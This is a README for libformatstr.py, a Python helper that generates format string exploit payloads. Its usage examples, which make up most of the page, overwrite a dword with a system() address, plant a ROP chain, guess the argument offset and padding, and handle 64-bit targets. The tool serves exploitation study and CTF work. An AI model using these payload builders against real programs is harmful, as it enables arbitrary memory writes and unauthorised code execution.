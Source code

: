 libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, start_len=4) )
```

* Case 2 - put ROP code somewhere:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
```

* Case 3 - guess argument number and padding:

```python
import sys
from libformatstr import FormatStr

# let's say we have do_fmt function,
# which gives us only output of format string
# (you can also just copy fmtstr and output manually)

buf_size = 250  # fix buf_size to avoid offset variation
res = do_fmt(make_pattern(buf_size))
argnum, padding = guess_argnum(res, buf_size)

# of course you can use it in payload generation

p = FormatStr(buf_size)
p[0xbffffe70] = "\x70\xfe\xff\xbf\xeb\xfe"  # yes, you can also put strings

sys.stdout.write( p.payload(argnum, padding, 3) ) # we know 3 bytes were printed already
```
* Case 4 - write something in specificed order:

```python
from libformatstr import FormatStr
f=FormatStr(autosort=False) #This option disables auto sorting
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3

#The payload will write address 0x1234 first,then 0x5678,then 0xabcd.
```

* Case 5 - while you are in amd64:

```python
from libformatstr import FormatStr
f=FormatStr(isx64=1) #This option force script to use 64bit address while generating payload
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3
```
About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: MIT License ( http://opensource.org/licenses/MIT )
